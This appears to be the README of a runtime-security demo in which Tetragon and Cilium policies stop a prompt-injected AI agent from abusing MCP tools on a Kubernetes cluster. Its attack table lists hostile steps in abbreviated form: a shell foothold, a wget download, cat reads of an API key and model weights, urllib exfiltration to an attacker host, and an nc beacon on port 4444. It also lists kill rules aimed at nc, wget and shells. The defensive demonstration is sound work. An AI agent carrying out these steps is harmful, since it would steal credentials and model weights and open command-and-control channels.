

# Guard the Model — OSS Tetragon + Cilium AI Workload Demo

Runtime security for an AI agent backed by an MCP tool server, using
**genuinely open-source** Tetragon (`quay.io/cilium/tetragon:v1.7.0`) and
Cilium (`quay.io/cilium/cilium:v1.19.5`). No Isovalent Enterprise packaging.

The demo asks one question: **what happens when your AI agent is compromised and
starts abusing the MCP tools it was given?** It answers it at two kernel-level
layers — process execution control (Tetragon) and network microsegmentation
(Cilium) — and shows the full attack chain collapse under layered controls while
the MCP tool server stays online throughout.

---

## Architecture

```
┌──────────────────────────────────────────────────────────────────────────────┐
│  Kubernetes cluster  (OSS Cilium CNI)                                        │
│                                                                              │
│  Namespace: ai-agent-oss              Namespace: ai-workload-oss             │
│  ┌────────────────────┐               ┌────────────────────────────────────┐ │
│  │  agent-driver      │               │  ai-inference (MCP tool server)    │ │
│  │  python:3.11-alpine│               │  python:3.11-alpine                │ │
│  │                    │  HTTP/8080    │                                    │ │
│  │  attack.sh execs   │──────────────▶│  POST /mcp/tools/call              │ │
│  │  into this pod     │  Service DNS  │                                    │ │
│  │                    │  (real CNI    │  tools:                            │ │
│  └────────────────────┘   dataplane)  │    execute   → subprocess (sh/nc)  │ │
│                                       │    read_file → subprocess (cat)    │ │
│  ┌──────────────────────────────────┐ │    fetch     → python urllib       │ │
│  │  CiliumNetworkPolicy             │ │                                    │ │
│  │  ingress-allow:                  │ │  crown jewels:                     │ │
│  │    port 8080 → ai-agent-oss      │ │    /etc/ai/api-key  (secret)       │ │
│  │    agent-driver ONLY             │ │    /models/model.safetensors       │ │
│  └──────────────────────────────────┘ └────────────────────────────────────┘ │
│                                                                              │
│  ┌──────────────────────────────────────────────────────────────────────┐    │
│  │  Tetragon DaemonSet  (eBPF, kernel-level)                            │    │
│  │    TracingPolicy ai-workload-oss-observe   → action: Post (OBSERVE)  │    │
│  │    TracingPolicy ai-workload-oss-enforce   → action: Sigkill (KILL)  │    │
│  └──────────────────────────────────────────────────────────────────────┘    │
└──────────────────────────────────────────────────────────────────────────────┘
```

### Why two namespaces?

A single-pod design where the "agent" and the MCP server share a pod means every
tool call is loopback (`localhost:8080`) inside one pod's network namespace.
Cilium never sees it. No `CiliumNetworkPolicy` can govern it. Hubble has no flow
record for it.

Splitting the agent into its own pod/namespace means every MCP tool call is real
pod-to-pod traffic over the CNI dataplane:

- **Hubble** shows a genuine `agent-driver → ai-inference:8080` flow for every
  tool call.
- **CiliumNetworkPolicy** (`ingress-allow`) can restrict who may even *reach*
  the MCP server — a zero-trust ingress boundary that is meaningless in a
  single-pod design.
- Every kill fired in `ai-inference` by the enforce pass can be correlated with
  the inbound HTTP call from `ai-agent-oss/agent-driver` in the flow log.

---

## The attack — six links via MCP tool abuse

A poisoned or prompt-injected AI agent issues six MCP tool calls against the
tool server. The MCP server faithfully dispatches each one. The kernel sees all
of it.



| Link | MCP tool | What the server dispatches | MITRE |
|------|----------|---------------------------|-------|
| 1 | `execute` | `sh -c "id"` — prompt-injection foothold | T1059.004, T1059 |
| 2 | `execute` | `sh -c "wget ..."` — second-stage download | T1059, T1204 |
| 3 | `read_file` | `cat /etc/ai/api-key` — inference API secret | T1552 |
| 4 | `read_file` | `cat /models/model.safetensors` — model weights | T1005 |
| 5 | `fetch` | `python urllib.urlopen(attacker)` — weights exfil | T1041 |
| 6 | `execute` | `nc attacker 4444` — C2 beacon | T1071.001 |

The MCP server's own runtime (`python3`) is **deliberately excluded** from the
`fd_install` and `tcp_v4_connect` kill-lists: the server reads its own weights
at startup and serves over a socket — neither action should be blocked. Link 5
is severed by the network layer (CiliumNetworkPolicy), not a process kill,
precisely because killing the python process would take the server down.

---

## The controls — what we test

Five independent controls break the chain. Three are Tetragon kernel hooks,
two are Cilium network policy.

### Tetragon — `tracing-policy.yaml` (OBSERVE) + `enforce-policy.yaml` (ENFORCE)

| Hook | Scope | What fires | Links severed |
|------|-------|-----------|---------------|
| `security_bprm_check` | shells: `/bin/sh`, `/bin/bash`, `/bin/busybox` | Fires when the MCP `execute` tool spawns a shell via `subprocess.run()` | 1, 2 |
| `fd_install` | paths: `/etc/ai/`, `/models/` · binaries: `cat`, `busybox` | Fires when `cat` opens the secret or the model weights — at the file-descriptor level, before a single byte is read | 3, 4 |
| `tcp_v4_connect` | binaries: `nc`, `wget`, `sh`, `bash`, `busybox` | Fires when `nc` or `wget` attempt an outbound TCP connect | 2 (backstop), 6 |

The OBSERVE policy uses `action: Post` — full kernel-level visibility, nothing
stopped. The ENFORCE policy (`TracingPolicyNamespaced`, scoped to the
`ai-workload-oss` namespace) uses `action: Sigkill` — the offending process
is killed at the kernel hook before the operation completes (exit 137).

### Cilium — `network-policy.yaml`

| Policy | What it does | Link severed |
|--------|-------------|--------------|
| `ai-workload-oss-egress-deny` | Locks `ai-inference` egress to DNS only. Any outbound socket from the MCP server is dropped at L3/L4. | 5 (python urllib exfil) |
| `ai-workload-oss-ingress-allow` | Restricts port 8080 on `ai-inference` to traffic from `ai-agent-oss/agent-driver` only. Every other pod's attempt to reach the MCP server is denied before the HTTP dispatch code runs. | (zero-trust boundary) |

`egress-deny` is the complement to the Tetragon kills: it severs the one link
where the MCP server's own runtime (`python3`) does the outbound work — killing
python would kill the server, so the network layer handles it instead.

`ingress-allow` is only meaningful because the agent is a separate pod. It
answers: *"who is allowed to call this MCP server at all?"* — and the answer is
exactly one namespace.

---

## What we verify

**Observe pass** — nothing stops the compromise:
- All six links execute from `agent-driver` over the real Service DNS name.
- Tetragon's `NPOST` counter increments for every hook hit.
- Hubble shows `agent-driver → ai-inference:8080` flows for each tool call.

**Enforce pass** — the same compromise, replayed under all five controls:
- Links 1, 2 (backstop), 3, 4, 6: process killed at the kernel hook (exit 137,
  `KPROBE_ACTION_SIGKILL`). Tetragon's `NENFORCE` counter increments.
- Link 5: `urllib` connect() is dropped at L3/L4 by `egress-deny`. No SIGKILL,
  no kprobe row — the proof is the absence of a successful connection.
- **The MCP tool server never restarts.** Only the malicious subprocesses die.
  `agent-driver` — the one pod the `ingress-allow` policy permits — keeps
  reaching `ai-inference.ai-workload-oss.svc.cluster.local:8080/health`
  throughout the enforce pass.

---

## Prerequisites

- A Kubernetes cluster with **OSS Cilium** as the CNI (v1.19+ recommended).
  `CiliumNetworkPolicy` support required (`cilium.io/v2`).
- **OSS Tetragon** deployed as a DaemonSet (v1.4+ for `TracingPolicyNamespaced`
  support; tested on v1.7.0).
- `kubectl` configured and pointing at the cluster.
- `python3` available locally (used for the `lib-checks.sh` status-board probes).

No Splunk or OTel Collector is required to run the demo. The output of
`tetra getevents` (streamed from the Tetragon DaemonSet via `lib-checks.sh watch`)
is the primary enforcement-proof surface.

---

## Quick start

```bash
# Deploy the MCP tool server (ai-workload-oss) + agent driver (ai-agent-oss),
# load the OBSERVE policy, and confirm everything is ready:
bash setup.sh

# Run the demo (interactive menu):
bash attack.sh
#   o  →  OBSERVE pass  (kernel sees all six links, nothing blocked)
#   e  →  ENFORCE pass  (same attack, five controls sever every link)
#   a  →  full story    (observe → enforce → cleanup)

# Stream live Tetragon events in a side terminal (recommended):
bash lib-checks.sh watch

# Tear down everything (both namespaces, all policies):
bash cleanup.sh
```

Environment variables (all optional):

| Variable | Default | Purpose |
|----------|---------|---------|
| `NAMESPACE` | `ai-workload-oss` | Namespace for the MCP tool server |
| `AGENT_NAMESPACE` | `ai-agent-oss` | Namespace for the agent driver pod |
| `INTERACTIVE` | `0` | Set to `1` to pause between links |
| `AUTO_CLEAN` | `1` | Set to `0` to leave policies in place after a full run |
| `SKIP_OTEL` | `0` | Set to `1` to skip the OTel Collector presence check in `setup.sh` |

---

## Files

| File | Purpose |
|------|---------|
| `workload.sh` | Builds and deploys the MCP tool server + agent driver pod. Single source of truth for the application. |
| `tracing-policy.yaml` | Cluster-wide `TracingPolicy` (OBSERVE). `action: Post` only — full visibility, nothing stopped. Covers all six attack links. |
| `enforce-policy.yaml` | `TracingPolicyNamespaced` scoped to `ai-workload-oss` (ENFORCE). `action: Sigkill` on `security_bprm_check`, `fd_install`, `tcp_v4_connect`. |
| `network-policy.yaml` | Two `CiliumNetworkPolicy` objects: `egress-deny` (DNS-only egress for `ai-inference`) + `ingress-allow` (port 8080 restricted to `ai-agent-oss/agent-driver`). |
| `setup.sh` | Deploys everything, loads the OBSERVE policy, prints the status board. |
| `attack.sh` | The six-link compromise. Observe pass then enforce pass. Interactive menu. |
| `cleanup.sh` | Removes all policies and deletes both namespaces. |
| `lib-checks.sh` | Shared verification helpers: status board, continuity probe from `agent-driver`, live event stream. |

---

## MITRE ATT&CK coverage

| Technique | Tactic | Trigger |
|-----------|--------|---------|
| T1059.004 — Unix Shell | Execution | MCP `execute` → `sh` shell-out |
| T1059 — Command and Scripting | Execution | MCP `execute` → shell-based downloader |
| T1204 — User Execution | Execution | MCP `execute` → `wget` tool-chaining abuse |
| T1552 — Unsecured Credentials | Credential Access | MCP `read_file` → `cat /etc/ai/api-key` |
| T1005 — Data from Local System | Collection | MCP `read_file` → `cat /models/model.safetensors` |
| T1041 — Exfiltration Over C2 | Exfiltration | MCP `fetch` → `python urllib` weights walk-out |
| T1071.001 — Web Protocols | C2 | MCP `execute` → `nc` beacon |

